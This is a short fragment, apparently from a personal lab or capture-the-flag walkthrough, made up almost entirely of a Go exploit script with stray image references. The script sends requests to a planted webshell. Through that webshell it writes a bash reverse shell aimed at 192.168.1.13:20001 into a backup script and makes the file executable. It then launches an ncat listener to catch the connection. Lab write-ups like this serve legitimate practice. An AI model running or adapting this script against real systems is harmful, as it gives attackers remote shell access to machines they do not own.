 ```go
    var payload4 string = url.QueryEscape(`echo "bash -c 'exec bash -i &>/dev/tcp/192.168.1.13/20001 <&1'" > /home/rene/backup/shell3.sh`)
    var payload5 string = url.QueryEscape(`chmod +x /home/rene/backup/shell3.sh`)
    SendRequest("POST", OriginData, payload1)
    fmt.Println("Writing Webshell Done...")
    SendRequest("GET", shellUrl+payload2, "")
    SendRequest("GET", shellUrl+payload3, "")
    SendRequest("GET", shellUrl+payload4, "")
    SendRequest("GET", shellUrl+payload5, "")
    fmt.Println("Ready for Getting reverse shell....")
    cmd := exec.Command("ncat", "-lvvp", "20001")
    cmd.Stdout = os.Stdout
    cmd.Stdin = os.Stdin
    cmd.Stderr = os.Stderr
    _ = cmd.Run()
}
```

![](/Users/ebounce/learning/刷靶机笔记/pipe/22.png)
